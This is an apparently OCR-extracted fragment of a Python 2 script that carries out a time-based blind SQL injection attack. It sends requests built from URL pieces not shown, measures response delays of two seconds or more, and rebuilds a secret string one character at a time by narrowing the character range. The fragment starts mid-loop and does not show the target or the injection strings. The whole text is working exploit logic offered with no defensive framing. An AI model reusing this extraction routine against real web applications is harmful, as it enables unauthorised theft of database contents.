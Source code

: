 ```python
		url = txt1+str(i)+txt2+str(num)+txt4
		time1 = time.time()
		req = requests.get(url = url)
		time2 = time.time()
		if(time2 - time1 <=2):
			num -= 3
		if((num == 74) or (num == 87)):
			for j in range(num,num+4):
				url = txt1+str(i)+txt3+str(j)+txt4
				time1 = time.time()
				req = requests.get(url = url)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
		else:
			for j in range(num,num+3):
				url = txt1+str(i)+txt3+str(j)+txt4
				time1 = time.time()
				req = requests.get(url = url)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
	if(num2 == 0 and num3 == 1):
		num =48
		num += 5
		url = txt1+str(i)+txt2+str(num)+txt4
		time1 = time.time()
		req = requests.get(url = url)
		time2 = time.time()
		if(time2 - time1 >=2):
			for j in range(num,num+5):
				url = txt1+str(i)+txt3+str(j)+txt4
				time1 = time.time()
				req = requests.get(url = url)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
		else:
			num -= 5
			for j in range(num,num+5):
				url = txt1+str(i)+txt3+str(j)+txt4
				time1 = time.time()
				req = requests.get(url = url)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
```